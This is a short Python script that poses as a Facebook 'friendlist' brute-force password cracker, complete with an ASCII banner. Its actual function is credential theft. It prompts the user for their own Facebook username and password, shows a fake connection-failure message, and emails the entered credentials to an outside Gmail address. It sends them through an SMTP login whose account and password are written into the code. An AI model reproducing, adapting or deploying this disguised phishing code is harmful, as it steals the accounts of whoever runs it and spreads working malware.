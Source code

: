 # hacknight
import socket,struct,os,sys,time,yagmail x=yagmail.SMTP('coldcybers@gmail.com','cold3452') subject='AMANKAN AKUN SEKARANG COLD' logo = """\033[1;94m█████████ \033[1;94m█▄█████▄█      \033[1;94m●▬▬▬▬▬▬▬▬▬๑۩۩๑▬▬▬▬▬▬▬▬● \033[1;94m█\033[1;94m▼▼▼▼▼ \033[1;94m- _ --_--\033[1;94m╔╦╗┌─┐┬─┐┬┌─   ╔═╗╔╗ \033[1;94m█ \033[1;94m \033[1;94m_-_-- -_ --__\033[1;94m ║║├─┤├┬┘├┴┐───╠╣ ╠╩╗ \033[1;94m█\033[1;94m▲▲▲▲▲\033[1;94m--  - _ --\033[1;94m═╩╝┴ ┴┴└─┴ ┴   ╚  ╚═╝ \033[1;97mVVIP \033[1;94m█████████      \033[1;94m«°°°°°°°°°°✧°°°°°°°°°°» \033[1;94m ██ ██\x1b[00m"""  banner = """ \x1b[34mHack Friendlist Facebook \x1b[00mAutomatic cracking password with Bruteforce \x1b[00mPlease login with your account \x1b[91m! """ def main():         os.system('clear')         print(logo)         print(banner)         print('\x1b[00m\033[41m FACEBOOK LOGIN \033[00m')         u=input('\x1b[00mUsername: \x1b[33m')         p=input('\x1b[00mPassword: \x1b[33m')         msg=('username: '+u+', password: '+p)         body=(msg)         print('')         print('\x1b[00mSorry, connection failed\x1b[91m !\x1b[00m')         print('\x1b[33mPlease try again later ...')         os.system('sleep 3')         print('')         print('\x1b[00mExiting program \x1b[91m!')         os.system('exit')         x.send('s35997949@gmail.com',subject,body)  main()

